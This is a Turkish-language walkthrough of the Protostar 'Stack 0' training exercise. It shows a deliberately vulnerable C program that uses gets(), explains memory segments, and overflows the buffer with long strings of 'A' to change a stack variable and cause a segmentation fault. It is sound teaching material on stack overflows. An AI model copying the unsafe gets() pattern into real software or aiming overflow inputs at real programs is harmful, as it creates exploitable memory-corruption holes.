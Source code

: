 ```yaml
---
title: "Stack 0"
etiketler: "Protostar"
seriler: "Protostar"
sakla  : false
---
```


## Stack0.c
``` C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```

**Amaç:** "you have changed the 'modified' variable" satırını yazdırmak.

İstediğimiz cümleyi yazdırabilmemiz için programın akışını değiştirilebilmemiz
gerekiyor. Bunun için bir yukarıdaki if koşulunun sağlanması gerekmekte, bunun
içinde *modified* değişkeninin yukarıda tanımlanan 0 değerinden başka bir değere
sahip olması gerekmekte.

## Programın çalıştırılması

``` shell
user@protostar:/opt/protostar/bin$ ./stack0
Merhaba
Try again?
```

Programmı çalıştırdığım zaman *gets()* fonksiyonuyla kullanıcıdan stdin'den
değer aldığını daha sonra *modified* değişkeni hala 0 olduğu için "Try again?"
mesajını yazdırdığını görüyoruz.

## gets() Fonsiyonundaki Sorun
Burada *gets()* fonksiyonuna dikkat etmek gerekiyor. Eğer man sayfalarını
kontrol edecek olursak.

_Never use gets().  Because it is impossible to tell without knowing the data in_
_advance how many characters gets() will read, and because  gets()  will_
_continue to store characters past the end of the buffer, it is extremely_
_dangerous to use.  It has been used to break computer security._

Yani gets() fonksiyonu stack frame'e istediğimiz gibi doldurabilmemize olanak
sağlıyor. Burada stack frame ile kast edilen şey programdaki fonksiyonları lokal
değişkenleri stack içerisinde atılır ve her fonksiyonun kendine ait bir stack
frame'i bulunur. Böylece program içerisindeki fonksiyonlar birbirlerinin
değişkenlerine erişemezler. -Global değişkenler bundan farklı olarak adresleri
ile çağırılırlar ve bu değişkenler stack veya heap dışında *Data Section*
tutulur.

## Çalıştırılabilir dosyanın bölümleri

* Code (Text)
* Data
* Stack
* Heap

**Code (Text):** Basitçe makina kodlarının bulunduğu bölüm.

**Data:** Global ve statik değişken adreslerinin bulunduğu bölüm.

**Stack:** Lokal değişkenlerin bulunduğu bölüm. Belleğin sonundan *Data* kısmına
doğru büyür. -Stack pointerin adresi küçülür-

**Heap:** Dinamik değişkenlerin bulunduğu bölüm. Data bölümünden belleğin alt
kısımlarına doğru büyür.

## Modified Değişkenini Değiştirilmesi
Yukarıdaki bilgiler doğrultusunda gets() fonksiyonunu kullanarak aynı stack
frame'de bulunan modified değişkenini değiştirebiliriz. Bunu yapmak aslında
çok kolay. Programa input verirken *buffer[64]*'ı doldurduktan sonra yazmaya
devam etmemiz yeterli.

----
İstediğim kadar harf üretebilmek için python'dan yardım alıyorum

``` shell
user@protostar:/opt/protostar/bin$ python -c "print('A'*64)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
----
64 tane A verdiğimiz zaman ilk seferde çalıştırdığımdaki çıktıyı görüyorum bu
zaten buffer dolduğu fakat modified değişkeni değişmediği için beklenilen sonuç.

``` shell
user@protostar:/opt/protostar/bin$ ./stack0 #64 Tane A
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again?
```

----
Buffer dolduktan hemen sonra modified (int) değişkeni(4 byte) olduğu için sadece
tek bir byte'ını değiştirmem yetti.
``` shell
user@protostar:/opt/protostar/bin$ ./stack0 #65 Tane A
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
```

----
Eğer buffer ve 4byte'lık modified değişkenini değiştirdikten sonra yazmaya devam
edersek "Segmentation fault" denilen hata ile karşılaşırız. *Segmentation Fault*
programın kendi hafıza alanının dışındaki bir adrese erişmeye çalıştığı zaman
işletim sistemi tarafından döndürülen bir hatadır.
``` shell
user@protostar:/opt/protostar/bin$ ./stack0 #100 Tane A
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
Segmentation fault
```
